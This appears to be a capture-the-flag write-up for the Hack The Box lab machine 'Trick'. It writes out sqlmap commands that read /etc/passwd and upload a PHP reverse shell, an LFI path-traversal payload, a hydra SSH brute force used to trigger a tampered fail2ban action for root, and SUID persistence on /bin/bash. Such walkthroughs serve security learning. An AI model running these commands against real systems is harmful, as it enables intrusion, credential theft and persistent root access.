

Since we know that DNS port 53 is open, I tried to do I zone transfer, and here is what I got.
dig axfr @10.129.227.180 trick.htb

New subdomain was found.
preprod-payroll.trick.htb
root.trick.htb
I am adding these to my /etc/hosts
I went to preprod-payroll

Something interesting that I found was:

However, it did not give me much information about the SQL Injection.

After researching for a little bit I found a cool tool called sqlmap. Basically it designed to look for sql injections. First I just ran it to see if the webpage was vulnerable to SQL Injections.
sqlmap -u http://preprod-payroll.trick.htb/payroll_items.php?id=1

File read:
sqlmap -u http://preprod-payroll.trick.htb/payroll_items.php?id=1 --file-read="/etc/passwd"
File upload:
sqlmap -u http://preprod-payroll.trick.htb/payroll_items.php?id=1 --file-write="(local-file)" --file-dest="(destination-filepath)"
I went ahead and thought that would be good to put a reverse shell on the system in case we need it. I got the PentestMonkey one from
revshells and put it on the system
sqlmap -u http://preprod-payroll.trick.htb/payroll_items.php?id=1 --file-write="shell.php" --file-dest="/tmp/shell.php"
Since I knew the webserver was running nginx I decided to check if it had any other subdomains that I did not know of.
I used my file reading ability and read /etc/nginx/sites-available/default

Here is what I noticed when I clicked on Services:

I started messing around trying to find LFI.

However, after a little bit more of trying I found this:

Remember the php reverse shell that we got onto the system earlier? Now, I start a nc listener wait for magic.
nc -lvnp 4444
http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//....//....//tmp/shell.php

I moved around the system and found id_rsa for michael in /home/michael/.ssh/id_rsa

I used it and was able to ssh as michael.
I ran sudo -l to see if I was able to run anything as root.

Looks like I can run fail2ban restart as root.
I did some more research on fail2ban on the system.

This is something interesting and useful that I found.
The directory action.d was owned by the security group and michael was part of the group.
I looked around a little more to find what I could do with that.

I read the /etc/fail2ban/jail.conf I found this configuration for ssh.
It means if there are more than 5 failed attempts of ssh login, it will ban it.
After a little bit of research I found that the action.d directory is reponsible for all the actions including banning.
There are many config files, but since there is no any special for ssh, we can assume that one of the iptables should work.

I created a /tmp/shell.sh for my root reverse shell.

Don't forget chmod +x /tmp/shell.sh so it can be run.
Even though michael was part of the security group I was not able to modify the contents of the config files

Here is a little trick:

mv action.d/iptables-multiport.conf action.d/iptables-multiport.conf.bak
cp action.d/iptables-multiport.conf.bak action.d/iptables-multiport.conf
Then, I changed these lines in iptables-multiport.conf

Restarted fail2ban
sudo /etc/init.d/fail2ban restart
Started hydra ssh brute forcing so it gets enough failed login attempts.
hydra -l michael -P /usr/share/wordlists/rockyou.txt ssh://trick.htb
Now I just had to wait for magic. After a few seconds my root shell appeared.

For persistence I immediately typed chmod +s /bin/bash from my root reverse shell.
And then in michael's ssh I typed /bin/bash -p to get my root shell in the ssh.
